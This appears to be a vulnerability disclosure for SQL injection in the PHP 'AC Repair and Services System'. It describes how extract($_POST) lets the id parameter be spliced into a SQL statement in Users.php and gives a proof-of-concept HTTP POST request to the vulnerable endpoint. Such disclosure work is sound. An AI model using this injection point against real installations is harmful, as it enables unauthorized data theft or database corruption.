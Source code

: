 



AC Repair and Services System using SQL injection vulnerabilities can be exploited by attackers to steal information or corrupt databases without authentication.



Source code address：https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in sava_users of the /classes/Users.php file. The parameters in the HTTP POST request are converted to independent variables by 'extract($_POST)'. In the judgment of line 26, when '$id' is empty, execute 'INSERT' statement to insert the field value in '$data' into the 'users' table. After successful insertion, obtain the self-increment ID of the new user through' $this->conn->insert_id '. And assign the value to '$id'. When you see the judgment in line 58, when the file upload function is used, the avatar and user id will be updated, and you can see that the id is directly spliced with SQL statements, that is, there are related problems.

![image-20250313230543305](images/image-20250313230543305.png)



漏洞验证：

```
POST /php-acrss/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 864
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX1DxiCFNmRo3UK24
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="id"

9
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="firstname"

Claire
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="middlename"


------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="lastname"

Blake
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="username"

cblake
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="type"

2
------WebKitFormBoundaryX1DxiCFNmRo3UK24
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryX1DxiCFNmRo3UK24--

```

![image-20250313231847818](images/image-20250313231847818.png)





































